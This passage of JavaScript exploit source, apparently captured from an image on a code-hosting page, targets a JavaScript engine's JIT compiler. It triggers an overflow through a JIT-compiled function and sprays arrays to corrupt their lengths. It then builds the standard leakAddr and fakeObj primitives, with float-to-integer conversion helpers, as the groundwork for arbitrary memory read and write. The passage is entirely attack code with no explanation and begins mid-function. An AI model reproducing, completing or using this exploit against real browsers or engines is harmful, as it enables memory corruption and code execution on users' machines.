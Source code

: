 ```
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)
// read address from this array
sprayedArrays[0] = arrayWithDouble.slice(); 
// insert address to read into this array and get fake objects from this array
sprayedArrays[1] = arrayWithContiguous.slice();
// insert address of fake objects into this array
sprayedArrays[2] = arrayWithDouble.slice(); 

// helper arrays to do float and integer conversions
var backingBuffer = new ArrayBuffer(8)
var f = new Float64Array(backingBuffer)
var i = new Uint32Array(backingBuffer)

function i2f(num) {
  i[0] = num % 0x100000000
  i[1] = num / 0x100000000
  return f[0]
}

function f2i(num) {
  f[0] = num
  return (i[1] * 0x100000000) + i[0]
}

print("[+] Getting leakAddr and fakeObj primitives")

let NEW_LENGTH = 21
let LEAK_ARRAY_INDEX = 0
let FAKE_ARRAY_INDEX = 1

badArray[19] = NEW_LENGTH;
badArray[39] = NEW_LENGTH;

function leakAddr(obj) {
  sprayedArrays[1][0] = obj;
  let floatAddr = sprayedArrays[LEAK_ARRAY_INDEX][NEW_LENGTH - 1];
  return f2i(floatAddr);
}

function fakeObj(addr) {
  let floatAddr = i2f(addr)
  sprayedArrays[2][0] = floatAddr
  return sprayedArrays[FAKE_ARRAY_INDEX][NEW_LENGTH - 1]
}

```

